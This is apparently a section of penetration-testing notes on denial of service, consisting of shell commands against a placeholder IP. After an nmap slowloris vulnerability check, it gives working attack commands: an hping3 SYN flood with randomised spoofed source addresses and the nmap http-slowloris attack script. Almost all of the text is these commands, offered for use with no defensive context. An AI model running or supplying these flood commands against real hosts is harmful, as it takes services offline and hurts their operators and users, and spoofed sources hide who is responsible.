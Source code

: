 # 05 - Denial of Service

## 5.1 - Check DoS Vulnerability

```
$ nmap -p 80,443,8000,8080,8443 -Pn --script http-slowloris-check <IP>
```

## 5.2 - Flood The Open Port

```
# hping3 -S -p 80 --flood --rand-source <IP>

$ nmap -p 80,443,8000,8080,8443 -Pn --script http-slowloris <IP>
```